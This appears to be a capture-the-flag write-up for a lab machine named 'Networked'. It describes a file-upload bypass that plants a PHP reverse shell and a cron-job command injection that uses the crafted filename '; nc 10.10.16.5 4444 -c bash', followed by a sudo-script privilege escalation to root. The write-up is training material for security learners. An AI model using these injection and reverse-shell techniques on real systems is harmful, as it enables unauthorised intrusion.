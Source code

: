 # Networked

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

### File Upload RCE

First, we can use `gobuster` on the website:

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

The `/backup` directory would show us a directory with a backup file:

<figure><img src="../../../.gitbook/assets/image (164) (1).png" alt=""><figcaption></figcaption></figure>

Within the backup file, there's this PHP code here:

```php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

In short, we can see that this file checks for the file extensions before accepting a file. Seeing that this is a PHP file, we can attempt to upload a PHP reverse shell. To bypass the extension check, notice how it uses `substr_compare` and verifies whether a valid extension is present. As such, we can create a file ending in `.jpg.php` to bypass this:

<figure><img src="../../../.gitbook/assets/image (77) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can upload it to `upload.php`. We can visit `photos.php` to trigger the shell:

<figure><img src="../../../.gitbook/assets/image (4) (1) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (168) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Guly

Within the machine, we can view the user `guly` directory:

<figure><img src="../../../.gitbook/assets/image (154) (4).png" alt=""><figcaption></figcaption></figure>

The crontab specifies that the user is running the `check_attack` script routinely.

<figure><img src="../../../.gitbook/assets/image (169) (2).png" alt=""><figcaption></figcaption></figure>

One dangerous part of this script is the usage of `exec` to run stuff. The `$value` variable is not sanitised, and we can exploit this by creating a file with the name of `; nc 10.10.16.5 4444 -c bash` within the `/var/www/html/uploads` directory. After doing this and waiting, we would gain a reverse shell and can capture the user flag:

<figure><img src="../../../.gitbook/assets/image (28) (2).png" alt=""><figcaption></figcaption></figure>

### To Root

We can check the `sudo` privileges of this user and find that there's one script we can run as `root`.

<figure><img src="../../../.gitbook/assets/image (58) (4).png" alt=""><figcaption></figcaption></figure>

Here's the script's contents:

<figure><img src="../../../.gitbook/assets/image (56) (2).png" alt=""><figcaption></figcaption></figure>

This takes user input and executes does not sanitise it at all. When we run the script, we can actually execute commands:

<figure><img src="../../../.gitbook/assets/image (2) (2) (2).png" alt=""><figcaption></figcaption></figure>

To get a `root` shell, we just need to run `/bin/bash`:

<figure><img src="../../../.gitbook/assets/image (23) (2) (4).png" alt=""><figcaption></figcaption></figure>

Rooted!
